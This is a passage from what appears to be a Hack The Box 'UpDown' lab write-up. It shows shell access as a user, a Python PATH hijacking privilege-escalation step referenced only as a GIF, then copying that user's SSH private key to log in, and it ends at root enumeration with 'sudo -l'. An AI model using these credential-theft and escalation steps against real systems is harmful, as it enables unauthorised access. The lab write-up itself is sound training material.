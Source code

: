 		uid=1002(developer) gid=33(www-data) groups=33(www-data)
		developer
		$ cd /home/developer
		$ ls
		dev
		user.txt
		```
3. Demo - Python PATH Hijacking Privilege Escalation
	![](9SLRl8WJ61.gif)
4. Copy user `developer`'s SSH private key (`/home/developer/.ssh/id_rsa`) & SSH to obtain a stable shell
	```
	┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/loot]
	└─# ssh developer@updown.htb -i id_rsa
	Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	  System information as of Mon Oct 24 11:43:51 UTC 2022
	
	  System load:           0.0
	  Usage of /:            51.8% of 2.84GB
	  Memory usage:          29%
	  Swap usage:            0%
	  Processes:             256
	  Users logged in:       0
	  IPv4 address for eth0: 10.10.11.177
	  IPv6 address for eth0: dead:beef::250:56ff:feb9:b8c1
	
	
	8 updates can be applied immediately.
	8 of these updates are standard security updates.
	To see these additional updates run: apt list --upgradable
	
	
	The list of available updates is more than a week old.
	To check for new updates run: sudo apt update
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	
	Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36
	developer@updown:~$
	```

## Root - Enumeration
1. View user `developer` sudo access
	```
	developer@updown:/tmp$ sudo -l
	Matching Defaults entries for developer on localhost:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	